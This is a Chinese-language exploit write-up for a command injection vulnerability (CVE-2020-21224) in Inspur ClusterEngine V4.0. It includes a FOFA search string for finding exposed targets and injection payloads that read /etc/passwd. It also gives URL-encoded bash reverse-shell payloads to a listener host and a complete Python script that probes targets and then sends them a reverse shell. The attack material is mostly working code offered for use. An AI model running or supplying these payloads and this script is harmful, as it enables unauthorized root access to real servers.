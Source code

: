 # 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/lc-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](http://wikioss.peiqi.tech/vuln/lc-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有

一个 ' ，系统将抛出异常。

![](http://wikioss.peiqi.tech/vuln/lc-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/lc-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

![](http://wikioss.peiqi.tech/vuln/lc-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

定尝试发送 ' ' 来查看响应包。

![](http://wikioss.peiqi.tech/vuln/lc-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

我注意到 grep 命令错误，服务端的代码可能是这样

```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测

![](http://wikioss.peiqi.tech/vuln/lc-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/lc-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

尝试读取  **/etc/passswd**

![](http://wikioss.peiqi.tech/vuln/lc-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

尝试列目录

![](http://wikioss.peiqi.tech/vuln/lc-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](http://wikioss.peiqi.tech/vuln/lc-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/lc-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](http://wikioss.peiqi.tech/vuln/lc-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![](http://wikioss.peiqi.tech/vuln/lc-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/lc-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!ONTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ClusterEngineV4.0_RCE

![](http://wikioss.peiqi.tech/vuln/lc-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



## 参考文章

https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

